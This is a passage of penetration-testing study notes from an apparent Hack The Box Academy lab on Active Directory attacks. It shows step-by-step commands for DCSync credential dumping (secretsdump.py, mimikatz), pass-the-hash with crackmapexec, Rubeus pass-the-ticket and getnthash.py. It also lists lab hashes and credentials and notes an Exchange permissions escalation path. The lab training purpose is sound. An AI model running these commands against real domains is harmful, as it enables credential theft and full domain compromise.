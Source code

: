 6. Use Domain Controller TGT to DCSync
```
TeneBrae93@htb[/htb]$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-
pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

7. Confirm Admin Access to the Domain Controller
```
TeneBrae93@htb[/htb]$ crackmapexec smb 172.16.5.5 -u administrator -H
88ad09182de639ccc6579eb0849751cf
```

8. (Alternative) Submitting a TGS Request for Ourselves Using getnthash.py
```
TeneBrae93@htb[/htb]$ python /opt/PKINITtools/getnthash.py -key
70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275
INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$
```

9. (Alternative) Using Domain Controller NTLM Hash to DCSync
```
TeneBrae93@htb[/htb]$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY -EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba
```



On Windows (after step 3 of obtaining base64 certificate via ntlmrelayx.py)

1. Request TGT and Perform PTT with DC01$ Machine Account
```
PS C:\Tools> .\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$
/certificate:<full_base64_string>
```

2. Use klist to confirm ticket is in memory
![[Pasted image 20230103185713.png]]

3. Perform DCSync with Mimikatz
```
PS C:\Tools\mimikatz\x64>
.\mimikatz.exe
lsadump::dcsync
/user:inlanefreight\krbtgt
```


## Miscellaneous Misconfigurations

For the portions of this section that require interaction from a Linux host, you can open a PowerShell console on MS01 and SSH to 172.16.5.225 with the credentials htb-student:HTB_@cademy_stdnt!.

Exchange Related Group Membership
- A default installation of Microsoft Exchange within an AD environment (with no split-administration model) opens up many attack vectors, as Exchange is often granted considerable privileges within the domain (via users, groups, and ACLs).
- The group Exchange Windows Permissions is not listed as a protected group, but members are granted the ability to write a DACL to the domain object.
- This can be leveraged to give a user DCSync privileges. An attacker can add accounts to this group by leveraging a DACL misconfiguration (possible) or by leveraging a compromised account that is a member of the Account Operators group.
- Techniques available here -- https://github.com/gdedrouas/Exchange-AD-Privesc
